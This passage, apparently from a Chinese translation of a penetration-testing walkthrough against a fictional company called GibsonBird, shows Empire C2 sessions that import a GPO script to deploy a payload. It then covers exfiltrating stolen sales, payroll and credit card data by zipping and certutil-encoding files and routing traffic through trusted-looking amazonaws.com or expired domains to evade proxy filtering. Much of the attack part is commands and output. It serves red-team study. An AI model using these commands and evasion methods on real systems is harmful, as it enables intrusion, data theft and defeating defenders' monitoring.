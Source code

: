 我们使用模块scriptimport将此脚本加载到Empire代理的内存中，然后调用初始化函数安装GPO模块，然后调用create-gpo函数启动负载：
```
(Empire: HRAgent) > scriptimport /root/gpo.ps1
gpo.ps1
script successfully saved in memory
(Empire: HRAgent) > scriptcmd initialize-gpo()
Job started: Debug32_Apm02
Initialization Done!
Created GPO successfully!
```

文件会源源不断传送到前置服务器。要在作业完成后删除此GPO，我们只需发布：
```
PS> Remove-GPLink -Name WindowsUpdate -Target "OU=GBHR,dc=CORP"
PS> Remove-GPO -Name "WindowsUpdate"
```

## 数据过滤
从吉布森鸟信息系统中，我们收集了大量数据！千兆字节的销售数据，雇员工资数据，信用卡数据，和随处可见的共享目录内的文件。

这确实是非常好的，但是除非我们能找到一种方法将其发送到一个安全的位置-前置服务器或一个虚拟的私人服务器，否则我们仍然有点被困住了。

随着数据的过滤，必须密切注意两个关键点：
- 我们要将数据传送到的地址：要使用哪个域？IP地址是否被列入黑名单？
- 内容！如果GibsonBird碰巧在检查出口流量，而我们碰巧传输了包含敏感关键字的word文档，它将引发各种警报。

内容问题很容易解决。我们只需压缩发送的每个文档，为了避免怀疑，我们将其转换为一个无意义的文本文件。

假设我们要传输以下目录：c:\ users\elise\documents。首先，我们使用Empire模块压缩它：
```
(Empire: FTPSales) > usemodule management/zipfolder
(Empire: zipfolder) > set Folder c:\users\ejansen\documents
(Empire: zipfolder) > set ZipFileName documents.zip
(Empire: zipfolder) > run
Folder c:\users\ejansen\documents zipped to
c:\users\ejansen\documents.zip
```

然后我们使用certutil-encode对其进行编码，以将此zip文档转换为文本文件（base64编码）：
```
(Empire: FTPSales) > shell certutil -encode documents.zip documents.txt
(Empire: FTPSales) > 
Input Length = 150
Output Length = 264
CertUtil: -encode command completed successfully.
```

很简单。现在关于要将数据渗出到的域。这就是我们需要变得更微妙的地方。一些公司依赖于可以对url进行分类的代理。

例如，他们允许google.com，但会阻止drive.google.com或pastebin.com。我们可以赌一把，尝试为前置服务器设置一个随机的新域名？为什么不选择一个我们知道有更好的机会被白名单和信任的域名呢？

在亚马逊注册一个专用服务器怎么样？这样我们就可以在amazonaws.com上找到一个合法的域名。我们不需要在它上面放任何数据；它可以将流量重定向到我们的前置服务器。

此外，考虑到他们的免费分层计划，我们甚至不需要提供信用卡数据来租用服务器的有限时间。

如果你对亚马逊不太放心，可能还有另一个有趣的选择。expiredomains.com网站提供了最近过期的域的列表。
